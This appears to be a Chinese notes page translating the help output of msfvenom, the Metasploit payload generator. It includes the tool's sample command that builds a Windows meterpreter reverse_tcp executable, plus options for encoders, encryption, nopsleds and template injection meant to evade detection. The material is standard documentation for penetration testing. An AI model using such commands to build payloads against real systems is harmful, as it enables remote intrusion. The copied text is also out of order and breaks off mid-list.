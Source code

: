 ```c
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

中文翻译如下，~~自己翻译的，累死了~~

```c
┌──(kali㉿kali)-[~/Desktop]
└─$ msfvenom -h              
MsfVenom - a Metasploit standalone payload generator.
#MsfVenom - 一个Metasploit独立的payload生成器
Also a replacement for msfpayload and msfencode.
#也是msfpayload和msfencode的替代品。
Usage: /usr/bin/msfvenom [options] <var=val>
#使用方法：/usr/bin/msfvenom [选项] <变量=值>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
#例如：/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
   #-l, --list            <type>     列出[type]中所有的模块。模块类型包括： payloads, encoders, nops, platforms, archs, encrypt, formats, all
	-p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
   #-p, --payload         <payload>  指定需要使用的payload（使用--list来列出payload，使用--list-options来查看参数）
   #     							 如果要使用自定义的payload，请使用'-'或STDIN
   #    --list-options               列出 --payload<value>的标准、高级和规避选项
    -f, --format          <format>   Output format (use --list formats to list)
   #-f, --format          <format>   格式化输出（使用 --list formats 来列出格式化的选项）
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
   #-e, --encoder         <encoder>  指定需要使用的encoder（编码器）（使用--list encoders来列出选项）
        --service-name    <value>    The service name to use when generating a service binary
   #    --service-name    <value>    为生成的二进制文件指定服务名称
		--sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
   #	--sec-name        <value>    为生成大型的Windows二进制文件时指定新节区名。默认：4个随机的alpha字符串     
        --smallest                   Generate the smallest possible payload using all available encoders
   #    --smallest                   使用所有可用的encoder（编码器）生成尽可能最小的payload
		--encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
   #	--encrypt         <value>    应用到shellcode的加密或编码类型（使用--list encrypt查看）
        --encrypt-key     <value>    A key to be used for --encrypt
   #    --encrypt-key     <value>    用于加密（--encrypt）的密钥
        --encrypt-iv      <value>    An initialization vector for --encrypt
   #    --encrypt-iv      <value>    用于加密（--encrypt）的初始化向量    
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
```